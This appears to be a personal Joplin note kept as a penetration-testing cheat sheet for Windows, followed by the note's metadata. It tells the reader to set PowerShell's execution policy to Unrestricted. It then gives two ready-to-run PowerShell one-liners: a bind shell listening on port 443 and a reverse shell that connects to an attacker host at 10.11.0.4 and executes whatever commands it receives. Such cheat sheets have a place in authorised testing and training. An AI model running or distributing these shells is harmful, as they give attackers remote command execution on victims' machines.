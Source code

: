 PowerShell

Remember to make the computer set the executionPolicy unrestricted

> Set-ExecutionPolicy Unrestricted

Bind shell

powershell -exec bypass -c "$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443); $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();\[byte\[\]\]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = (\[text.encoding\]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"

Reverse Bind shell (With kali as listener \[Use NetCat\]):

powershell -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('10. 11.0.4',443); $stream = $client.GetStream(); \[byte\[\]\]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = (\[text.encoding\]::ASCII ).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

URL for more info

https://book.hacktricks.xyz/shells/shells/windows

id: 1a72f4e7464d467d810fc01a3adf9ed0
parent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd
created_time: 2022-01-14T07:01:30.082Z
updated_time: 2022-01-14T07:12:22.063Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-14T07:01:30.082Z
user_updated_time: 2022-01-14T07:12:22.063Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1